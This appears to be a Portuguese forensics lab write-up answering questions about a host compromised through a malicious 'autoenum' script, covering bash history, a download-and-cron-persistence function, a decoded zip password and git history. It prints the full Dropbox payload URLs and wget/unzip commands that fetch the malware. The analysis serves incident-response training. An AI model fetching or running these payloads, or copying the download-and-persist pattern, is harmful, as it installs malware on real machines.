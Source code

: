 #Difficult  : Easy
#Tools : VirusTotal, Shell
***
#### Info
Recebemos uma pasta `cascale_out` com alguns arquivos como logs e arquivos de usuários para nossa investigação.
![[Pasted image 20250327090253.png]]
***
#### 1 - What is the name of the repository utilized by the Pen Tester within Forela that resulted in the compromise of his host?
Algo interessante a se fazer é sempre ver o histórico de comandos de cada usuário, assim temos uma noção maior do que aconteceu. Em `./catscale_out/User_Files` temos um arquivo `hidden-user-home-dir.tar.gz`. Vamos extrair seus arquivos.
```sh
ls
tar -gz -x -f ./hidden-user-home-dir.tar.gz
ls
```
![[Pasted image 20250327092121.png]]

Podemos começar pelo ``./home/johnspire`` e ver o histórico.
```sh
cat /home/johnspire/.bash_history
```
![[Pasted image 20250327092536.png]]
E temos o nome do repositório usado para enumeração do host.

**Answer** : autoenum
***
#### 2 - What is the name of the malicious function within the script ran by the Pen Tester?
Agora que temos o repositório da ferramenta usada, podemos clona-la na máquina e analisarmos.
```sh
git clone https://github.com/pttemplates/autoenum && cd autoenum
```
![[Pasted image 20250327093838.png]]

Temos algumas funções nesse arquivo.
```
cat cat enum.sh
```
![[Pasted image 20250327094325.png]]

A função `do_wget_and_run` baixa algum arquivo da internet e o extrai com uma senha em `base64`, além de agendar a execução do script com o `crontab` para toda reinicialização.
![[Pasted image 20250327094606.png]]

**Answer** : do_wget_and_run
***
#### 3 - What is the password of the zip file downloaded within the malicious function?
Após ver o comando utilizado para decodificar senha, podemos apenas refaze-lo.
![[Pasted image 20250327094907.png]]

```sh
part1="c3VwZXI="
part2="aGFja2Vy"
echo "$part1$part2" | base64 -d
```
![[Pasted image 20250327095011.png]]

**Answer** : superhacker
***
#### 4 - What is the full URL of the file downloaded by the attacker?

Ainda no script, podemos remontar a ``URL`` usada.
![[Pasted image 20250327095243.png]]

```sh
f1="https://www.dropbox.com/scl/fi/uw8oxug0jydibnorjvyl2"
f2="/blob.zip?rlkey=zmbys0idnbab9qnl45xhqn257&st=v22geon6&dl=1"
echo "${f1}${f2}"
```
![[Pasted image 20250327095353.png]]

**Answer** : https:\//www.dropbox.com/scl/fi/uw8oxug0jydibnorjvyl2/blob.zip?rlkey=zmbys0idnbab9qnl45xhqn257&st=v22geon6&dl=1
***
#### 5 - When did the attacker finally take out the real comments for the malicious function?
Podemos ver o histórico de alterações do arquivo.
```
git log --follow -p enum.sh
```
![[Pasted image 20250327102947.png]]

No ``commit 7d203152c5a3a56af3d57eb1faca67a3ec54135f`` observamos que os comentários foram retirados.

**Answer** : 2024-12-23 22:27:58
***
#### 6 - The attacker changed the URL to download the file, what was it before the change?
Podemos seguir no fluxo de mudanças do arquivo até encontrar a última mudança da `URL`.
![[Pasted image 20250327103555.png]]

No `commit 5d88bee8918d514a206fec91be72899544cdd37b` houve a última mudança da `URL`.

**Answer** : https:\//www.dropbox.com/scl/fi/wu0lhwixtk2ap4nnbvv4a/blob.zip?rlkey=gmt8m9e7bd02obueh9q3voi5q&st=em7ud3pb&dl=1
***
#### 7 - What is the MITRE technique ID utilized by the attacker to persist?
Como o script adicionou um ``cronjob`` para persistência, podemos pesquisar no [Mitre ATT&CK](https://attack.mitre.org/).
![[Pasted image 20250327111823.png]]

**Answer** : T1053.003
***
#### 8 - What is the Mitre Att&ck ID for the technique relevant to the binary the attacker runs?
Aqui, podemos fazer o download do ``malware`` pela ``URL`` do ``script``, pegar seu ``SHA256`` e pesquisarmos no ``VirusTotal``. Sendo a senha do arquivo a mesma da pergunta ``3``.
```sh
wget "https://www.dropbox.com/scl/fi/uw8oxug0jydibnorjvyl2/blob.zip?rlkey=zmbys0idnbab9qnl45xhqn257&st=v22geon6&dl=1"

unzip blob.zip\?rlkey=zmbys0idnbab9qnl45xhqn257\&st=v22geon6\&dl=1

sha256sum blob
```
![[Pasted image 20250327110628.png]]

Após o envio do hash no `VirusToatl`, na aba `BEHAVIOR` podemos ir em `MITRE ATT&CK Tactics and Techniques` e `Impact`.
![[Pasted image 20250327110937.png]]

**Answer** : T1496
***

![[Pasted image 20250327111311.png]]































